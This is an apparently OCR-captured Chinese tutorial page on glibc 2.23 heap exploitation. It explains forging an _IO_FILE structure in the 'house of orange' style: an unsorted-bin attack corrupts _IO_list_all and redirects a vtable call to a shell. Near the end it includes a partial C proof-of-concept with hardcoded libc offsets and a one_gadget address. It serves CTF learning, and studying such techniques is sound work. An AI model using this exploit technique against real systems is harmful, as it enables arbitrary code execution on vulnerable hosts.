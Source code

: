 ```C
  _IO_off_t _old_offset; 

#define __HAVE_COLUMN 
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
 */

```

____

## fake _IO_FILE

&emsp;&emsp;<font size=2>伪造`_IO_FILE`这个现在其实用的是比较多的，`glibc2.23`没有做什么检查，而`glibc2.24`开始就有对`vtable`做一些检查，但绕过也非常简单，这个系列主要是讲`glibc2.23`的，因此其他的就自行搜索其他资料吧，如果以后得空了说不定也会分析一下。</font></br>

&emsp;&emsp;<font size=2>最初ctf上伪造`_IO_FILE`的好像是一个叫`house of orange`的题目，利用原理就是用`unsorted-bin attack`修改了`_IO_list_all`指向的链表，然后故意触发错误从`malloc_printerr`一路到了伪造的`vtable`上的`__overflow`，就顺势getshell了。我们先从`unsorted-bin attack`修改的`_IO_list_all`开始分析吧：</font></br>

```C
        void *p1, *p2, *p3, *p4;
        ull *p;
        ull libc_base = 0;
        ull _IO_list_all = 0x3c5520;
        ull one_gadget = 0xf1147;

        setvbufs();
        p1=malloc(0x100);
        malloc(0x20);

        free(p1);
        malloc(0xa0);

        p2 = malloc(0x100);
        // now we have a 0x60 smallbin
        //
        // avoid smallbin to be alloced, use 0x100
        malloc(0x100);

        free(p2);
        libc_base = *(ull*)p2 - 0x3c4b78;
        *((ull*)p2+1) = libc_base+_IO_list_all - sizeof(void*)*2;

        malloc(0x100);

```
